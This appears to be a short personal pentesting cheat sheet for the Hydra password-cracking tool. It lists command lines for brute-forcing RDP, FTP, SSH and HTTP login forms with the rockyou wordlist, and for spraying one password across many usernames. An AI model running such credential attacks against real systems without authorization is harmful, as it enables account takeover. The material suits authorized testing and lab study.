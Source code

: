 ```yaml
---
title: Hydra
updated: 2025-05-12 03:17:30Z
created: 2025-04-24 13:33:44Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Bruteforcing with Hydra
RDP:
`hydra -l <user> -P rockyou.txt rdp://<target>`

FTP:
`hydra -l <user> -I -P rockyou.txt -s 21 ftp://<target>`

SSH:
`hydra -l <user> -P rockyou.txt -s <target_port> ssh://<target>`

HTTP POST:
`hydra -l <user> -P rockyou.txt <target> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`

`hydra -l <user> -P <wordlist> <target> -t 4 ssh -V`

## Password Spraying with Hydra
`hydra -L /usr/share/wordlists/dirb/others/names.txt -p "Pa55w0rd" ssh://<target>`
`hydra -L /usr/share/wordlists/dirb/others/names.txt -p "Pa55w0rd" rdp://<target>`